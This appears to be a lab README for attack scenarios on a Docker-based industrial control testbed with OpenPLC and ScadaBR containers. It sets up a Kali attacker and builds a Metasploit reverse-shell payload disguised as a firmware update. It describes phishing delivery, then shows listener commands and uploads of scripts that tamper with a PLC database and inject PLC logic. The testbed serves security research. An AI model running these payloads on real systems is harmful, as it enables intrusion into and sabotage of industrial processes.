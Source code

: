 # Setting Up Attack Scenarios


## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

**PLC11**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.11)
   - **Ports:** 10011:8080

**PLC12**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.12)
   - **Ports:** 10012:8080

## *Accessing the Components on the browser*

1. **PLC11 Dashboard**:
   - URL: `http://172.18.0.11:10011`
   - **Username**: `openplc`
   - **Password**: `openplc`

1. **PLC12 Dashboard**:
   - URL: `http://172.18.0.12:10012`
   - **Username**: `openplc`
   - **Password**: `openplc`

## *Accessing the Components on via the docker cli*

bash:
```
# For plc11
docker exec -it plc11 bash 
# For plc12
docker exec -it plc12 bash 
```

**NB:** There are 06 PLC in total, from PLC11 ... PLC16, there are in the same network named (swat) with their port number corresponding to their names 
**Ex :** Name :  PLC11, Port : 10011

## *Setting up the attacker's machine*

Docker command:
```
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Image:** `kalilinux/kali-rolling`
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Exploit vulnerable OpenPLC database*

The first scenario consist of exploiting the sqlite database of OpenPLC using a script **db-attack.py** found in the **2 - Attack_scripts folder** 

If Metasploit is not installed, follow these steps:

Attacker's terminal
```
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the plc's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for plcs. The idea is to have access to a target's machine in order to manipulate the PLC remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```
docker cp attacker:/scripts/firmware_update.elf plc11:/workdir
```

Then in plc11, we run this 

Plc11 terminal
```
cd workdir
chmod +x firmware_update.elf
./firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener:*

Attacker's terminal
```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system.
- The attacker can now manipulate the plc and executes any scripts he wishes, the attack uploads the `db-attack.py` to plc's machine

Illustration in meterpreter terminal:
```
upload /path/to/local/file /path/on/target/ (Upload from attacker to target machine)
```

Example

Meterpreter terminal
```
upload /scripts/db-attack.py /workdir
```
- After uplaoding the script in the target's machine, he can execute the script with ease from the meterpreter terminal

Meterpreter terminal
```
shell
python3 db-attack.py
```

![Screenshot](images/db/2.png)


## *Scenario - 2 : Code injection attack in plc*

The attacker changes the code logic of the plc without stopping it or without being detected. This change's the plc's logic and eventually disrupts the physical process

- As in the scenario 1, the attacker uploads a `code-injection.py` script in the target's machine, you could find the script in the `Attack_scripts` folder
- He uses the same attack method as in scenario 1

Meterpreter terminal
```
upload /scripts/code-injection.py /workdir
```

- The attacker can now execute the script into the target's machine, he needs the ip address and the modbus port number. He eventually obtained them from the reconnaissance phase

Meterpreter terminal
```
shell
python3 code-injection.py -t 172.18.0.11 -p 502
```

